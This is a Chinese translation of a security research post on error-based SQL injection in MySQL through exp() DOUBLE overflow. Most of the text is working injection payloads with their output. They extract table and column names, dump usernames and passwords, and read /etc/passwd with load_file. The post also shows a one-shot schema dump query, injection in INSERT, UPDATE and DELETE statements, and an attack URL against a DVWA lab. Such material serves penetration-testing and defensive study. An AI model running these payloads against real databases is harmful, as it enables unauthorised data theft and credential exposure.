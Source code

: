 # 使用exp进行SQL报错注入

此文为`BIGINT Overflow Error Based SQL Injection`的具体发现与实践

from:[https://osandamalith.wordpress.com/2015/07/15/error-based-sql-injection-using-exp/](https://osandamalith.wordpress.com/2015/07/15/error-based-sql-injection-using-exp/)

0x01 前言概述
=====

好消息好消息～作者又在`MySQL`中发现了一个`Double`型数据溢出。如果你想了解利用溢出来注出数据，你可以读一下作者之前发的博文：[BIGINT Overflow Error based injections](https://osandamalith.wordpress.com/2015/07/08/bigint-overflow-error-based-sql-injection/)，drops上面也有对应翻译，具体见[这里](http://drops.wooyun.org/web/8024)。当我们拿到`MySQL`里的函数时，作者比较感兴趣的是其中的数学函数，它们也应该包含一些数据类型来保存数值。所以作者就跑去测试看哪些函数会出现溢出错误。然后作者发现，当传递一个大于709的值时，`函数exp()`就会引起一个溢出错误。

```
mysql> select exp(709);
+-----------------------+
| exp(709)              |
+-----------------------+
| 8.218407461554972e307 |
+-----------------------+
1 row in set (0.00 sec) 

mysql> select exp(710);
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'

```

在`MySQL`中，`exp`与`ln`和`log`的功能相反，简单介绍下，就是`log`和`ln`都返回以e为底数的对数，见等式：

![enter image description here](http://drops.javaweb.org/uploads/images/2a08cd9fde16c6d1af769b67e1fb57ea3adff50d.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/9e3783aa333596cd9a79cfa1d8a94dfb1f9f9e4d.jpg)

```
mysql> select log(15);
+------------------+
| log(15)          |
+------------------+
| 2.70805020110221 |
+------------------+
1 row in set (0.00 sec) 


mysql> select ln(15);
+------------------+
| ln(15)           |
+------------------+
| 2.70805020110221 |
+------------------+
1 row in set (0.00 sec)

```

指数函数为对数函数的反函数，`exp()`即为以e为底的对数函数，如等式：

![enter image description here](http://drops.javaweb.org/uploads/images/7e475298cd1e4f1eb83220c0256f10f68d08e146.jpg)

```
mysql> select exp(2.70805020110221);
+-----------------------+
| exp(2.70805020110221) |
+-----------------------+
|                    15 |
+-----------------------+
1 row in set (0.00 sec)

```

0x02 注入
=====

当涉及到注入时，我们使用否定查询来造成“`DOUBLE value is out of range`”的错误。作者之前的博文提到的，将0按位取反就会返回“`18446744073709551615`”，再加上函数成功执行后返回0的缘故，我们将成功执行的函数取反就会得到最大的无符号`BIGINT`值。

```
mysql> select ~0;
+----------------------+
| ~0                   |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec) 


mysql> select ~(select version());
+----------------------+
| ~(select version())  |
+----------------------+
| 18446744073709551610 |
+----------------------+
1 row in set, 1 warning (0.00 sec)

```

我们通过子查询与按位求反，造成一个`DOUBLE overflow error`，并借由此注出数据。

```
>`exp(~(select*from(select user())x))`

    mysql> select exp(~(select*from(select user())x));
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

```

0x03 注出数据
=====

得到表名：

```
select exp(~(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));

```

得到列名：

```
select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x));

```

检索数据：

```
select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));

```

0x04 一蹴而就
=====

这个查询可以从当前的上下文中dump出所有的tables与columns。我们也可以dump出所有的数据库，但由于我们是通过一个错误进行提取，它会返回很少的结果。

```
exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))

http://localhost/dvwa/vulnerabilities/sqli/?id=1' or exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))-- -&Submit=Submit#

```

![enter image description here](http://drops.javaweb.org/uploads/images/e11eaf28f467a0cad1929c1ba1c144dbc0399819.jpg)

0x04 读取文件
=====

你可以通过`load_file()`函数来读取文件，但作者发现有13行的限制，该语句也可以在`BIGINT overflow injections`中使用。

```
select exp(~(select*from(select load_file('/etc/passwd'))a));

```

![enter image description here](http://drops.javaweb.org/uploads/images/6f849e13bc54d61b247d54ec5c21c7224b57960d.jpg)

注意，你无法写文件，因为这个错入写入的只是0。

```
mysql> select exp(~(select*from(select 'hello')a)) into outfile 'C:/out.txt';
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'hello' from dual)))'    

# type C:\out.txt
0

```

0x05 Injection in Insert
=====

按部就班就好

```
mysql> insert into users (id, username, password) values (2, '' ^ exp(~(select*from(select user())x)), 'Eyre');
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

```

对于所有的`insert，update`和`delete`语句`DIOS`查询也同样可以使用。

```
mysql> insert into users (id, username, password) values (2, '' | exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)), 'Eyre');
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '000
newdb::users::id
newdb::users::username
newdb::users::password' from dual)))'

```

0x06 Injection in Update
=====

```
mysql> update users set password='Peter' ^ exp(~(select*from(select user())x)) where id=4;
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

```

0x07 Injection in Delete
=====

```
mysql> delete from users where id='1' | exp(~(select*from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

```

0x08 总结
=====

和前面的BIGINT注入一样，exp注入也适用于MySQL5.5.5及以上版本。以前的版本对于此情况则是“一言不发”。

```
mysql> select version();
+---------------------+
| version()           |
+---------------------+
| 5.0.45-community-nt |
+---------------------+
1 row in set (0.00 sec) 


mysql> select exp(710);
+----------+
| exp(710) |
+----------+
|   1.#INF |
+----------+
1 row in set (0.00 sec) 


mysql> select exp(~0);
+---------+
| exp(~0) |
+---------+
|  1.#INF |
+---------+
1 row in set (0.00 sec)

```

可能还有其他的函数会产生这种报错呦。（有待你发现啦：）